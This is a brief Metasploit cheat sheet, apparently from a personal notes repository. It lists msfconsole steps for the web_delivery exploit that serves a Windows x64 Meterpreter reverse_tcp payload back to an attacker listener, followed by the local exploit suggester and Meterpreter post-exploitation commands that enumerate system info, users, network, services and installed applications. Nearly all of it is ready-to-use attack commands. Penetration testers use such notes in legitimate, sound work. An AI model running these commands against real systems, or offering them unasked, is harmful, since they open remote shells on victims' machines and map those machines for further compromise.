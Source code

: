 # metasploit

### where all modules are located:

```
/usr/share/metasploit-framework/modules
```

### meterpreter

```bash
msfconsole
```

```
use exploit/multi/script/web_delivery
```

```
set payload windows/x64/meterpreter/reverse_tcp
```

```
set target 2
```

```
set LHOST eth0
```

```
run
```

### meterpreter cool stuff

```
post/multi/recon/local_exploit_suggester
```

### meterpreter shell commands

* `sysinfo`
* `getuid`
* `ipconfig`
* `arp`
* `run post/windows/gather/enum_services`
* `run post/windows/gather/enum_applications`
* `route`
* 

